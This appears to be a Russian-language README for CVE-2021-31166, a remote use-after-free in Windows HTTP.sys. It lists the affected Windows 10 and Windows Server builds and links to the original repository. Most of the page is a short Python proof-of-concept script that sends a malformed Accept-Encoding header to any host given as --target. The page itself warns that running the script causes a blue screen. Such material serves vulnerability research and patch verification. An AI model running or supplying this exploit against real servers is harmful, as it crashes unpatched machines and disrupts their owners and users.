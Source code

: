 <languages  />

Воздействие уязвимости
----------------------

    Windows Server, version 20H2 (Server Core Installation)
    Windows 10 Version 20H2 for ARM64-based Systems
    Windows 10 Version 20H2 for 32-bit Systems
    Windows 10 Version 20H2 for x64-based Systems
    Windows Server, version 2004 (Server Core installation)
    Windows 10 Version 2004 for x64-based Systems
    Windows 10 Version 2004 for ARM64-based Systems
    Windows 10 Version 2004 for 32-bit Systems

POC
---

⚠️️При выполнении POC появится синий экран.

    # Axel '0vercl0k' Souchet - May 16 2021
    import requests
    import argparse

    def main():
        parser = argparse.ArgumentParser('Poc for CVE-2021-31166: remote UAF in HTTP.sys')
        parser.add_argument('--target', required = True)
        args = parser.parse_args()
        r = requests.get(f'http://{args.target}/', headers = {
            'Accept-Encoding': 'doar-e, ftw, imo, ,',
        })
        print(r)

    main()

GIF
---

![](windows.gif "windows.gif")

Ссылка
------

<https://github.com/0vercl0k/CVE-2021-31166>